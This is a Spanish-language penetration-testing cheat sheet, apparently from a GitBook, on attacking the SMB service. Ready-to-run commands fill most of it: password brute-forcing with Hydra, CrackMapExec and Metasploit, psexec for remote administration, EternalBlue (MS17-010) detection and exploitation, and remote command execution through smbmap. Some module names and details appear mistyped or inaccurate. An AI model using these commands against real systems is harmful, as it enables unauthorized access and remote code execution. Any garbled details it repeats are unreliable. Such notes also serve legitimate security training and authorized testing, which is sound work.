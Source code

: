 # SMB

## Fuerza Bruta

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SMB, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente:

```bash
hydra -l user -P passwords.txt smb://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SMB no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt SMB://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 smb://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt smb://127.0.0.1 -t 15
```

### Crackmapexec

Podemos usar esta herramienta para probar una serie de contraseñas en base a un usuario o viceversa sustituyendo la contraseña por la ruta de un diccionario. Por ejemplo:

```ruby
crackmapexec smb 192.168.1.10 -u usuario -p diccionario.txt
```

{% hint style="warning" %}
**ATENCIÓN!!** Puede que los resultados no sean reales y nos den falsos negativos, por lo que se recomienda revisar los resultados con smbmap (`smbmap -H 192.168.1.10 -u usuario -p contraseña1`)
{% endhint %}

### Metasploit

#### Fuerza Bruta

Podemos usar metasploit para hacer fuerza bruta para SMB, el modulo es "`auxiliary/scanner/smb/smb_login`"

* SMBUSser -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* SMBPass -> En el caso de que usemos una contraseña concreta
* RHOSTS -> IP de la máquina victima
* VERBOSE -> Desactivar

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

#### PSexec

Existe otro módulo llamado psexec (`exploit/windows/smb/psexec`) cuyo objetivo es adquirir administración remota de la maquina

* RHOSTS -> IP de la máquina victima
* SMBUSser -> En el caso de que usemos un usuario concreto
* SMBPass -> En el caso de que usemos una contraseña concreta

## EthernalBlue (MS17-010)

{% hint style="info" %}
EternalBlue es una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, identificada como MS17-010. Esta vulnerabilidad permite a un atacante ejecutar código remoto en sistemas Windows sin necesidad de autenticación.

Los siguientes S.O. fueron afectados:

* **Windows Vista**
* **Windows 7**
* **Windows 8**
* **Windows 8.1**
* **Windows 10**
* **Windows Server 2008**
* **Windows Server 2008 R2**
* **Windows Server 2012**
* **Windows Server 2012 R2**
* **Windows Server 2016**
{% endhint %}

### Detección

#### Nmap

Para comprobar si el host es vulnerable, usaremos el siguiente script de nmap:

```bash
nmap -sV -p 445 --script=smb-vuln-ms17-010 192.168.1.1
```

#### Metasploit

También podemos optar por el modulo de metasploit:

```bash
/auxliary/scanner/smb/smb_ms10_010
```

### Explotación

#### GitHub Tool

Para explotar la vulnerabilidad, usaremos la siguiente herramienta:

{% @github-files/github-code-block url="https://github.com/3ndG4me/AutoBlue-MS17-010" %}

#### Metasploit

O el siguiente modulo de metasploit:

```bash
/exploit/windows/smb/ms17_010_ethernalblue
```

## RCE

Podemos ejecutar comandos con un usuario y contraseña de SMB usando [SmbMap](../../reconocimiento/protocolos-servicios/smb.md#smbmap) y el siguiente comando:

```bash
smbmap -u usuario -p password -H 192.168.1.1 -x 'comando'
```
